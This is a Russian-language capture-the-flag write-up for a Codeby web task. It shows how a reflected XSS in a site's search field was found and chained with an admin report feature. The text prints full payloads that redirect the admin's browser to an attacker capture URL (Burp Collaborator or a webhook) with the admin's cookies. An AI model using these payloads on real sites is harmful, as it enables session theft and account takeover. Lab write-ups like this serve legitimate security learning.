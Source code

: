 # The customer is always right writeup
Указанная сложность таска - седний

Цена таска - 500 

Для начала перидем по указанному нам ip-адресу
>***62.173.140.174: 16013***

И видим такой вот сайт 
![костюм](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/194481c8-f7e4-4522-adfb-52fcd829f0e0)

Функционал не велик. Давайте по порядку. Первое что можно селать - потыкать на ссылки, они нас приведут к картинкам
![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/e5466b30-fb06-4970-8f9e-ca60029b9fe1)

![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/44b878dd-8f06-40ca-8f33-97f63bb4b44b)

![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/ae91119d-7281-41bc-a41c-b43d82cda7db)

Интересные картники, наверное, но нас больше интерисует кнопка репорта.
![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/0e55828b-d9ad-4d66-811d-0f1e695254f1)

Репорт отправляется непосредственно админу, вспомним описание таска:
>***Какой-то админ ворует наши публикации и выставляет их на свой сайт. Ты ведь не будешь сидеть сложа руки?***

Скорее всего нам нужно получить доступ к админке, но как?
Название таска может подсказать нам, что тут прав клиент. 

Смотрим что такое XSS уязвимости.

Ну, хоть мы сразу может надеться на XSS уязвимость, было бы неплохо проверить наши догадки.
введем в посик на сайте такую команду `<script>alert('1')</script>`
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/80d5ac94-a96f-4617-9265-a1c6b7945193)

Отлично! Наши догадки оказались верны, наша цель - перехватить куки. 
Сказать просто, надо делать. Единственное наше общение с админом происходит как раз во время репорта, а значит нам надо поддлеать репорт. 

Напишем пейлоад, который исполнит наш js скрипт, но у админа.

```
search=<script>document.location='http://{{ссылка перехвата}}//?c='%252bencodeURIComponent(document.cookie)</script>
```
Давайте разберу его. Мы используем факт того, что репорт можно отправить через search, значит мы будем искать наш пейлоад. 

Я не говорил про Burp Suite? Возможно самое время, для перехвата нам понадобиться Burp Suite Pro, способ получения не важен.

Если быть точнее, то нам нужна вкладка **Collaborator**
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/c470720f-2fd2-428f-86f8-22e57cf4a09e)

Нажимаем на кномпку **Copy clipboard**, то что мы скопировали вставляем в нам скрипт, я указ место для вставки как *ссылка перехвата*

***можно использовать webhook, результат будет тот же***

Полная конечная наша ссылка должна выглядеть так:
```
http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location='http://{{ссылка перехвата}}//?c='%252bencodeURIComponent(document.cookie)</script>
```

Вводим в поисковую строку ииии.... мы ничего не видим, зато это увидел админ. А мы возвращаемся в Burp и нажимаем **pull now**
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/8495a001-6278-48a1-a4a7-0751d4c75f39)

Перехват успешен!

А вот и наш флаг

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/6681068f-6883-4dd9-af6a-69a80136771e)

Конец.
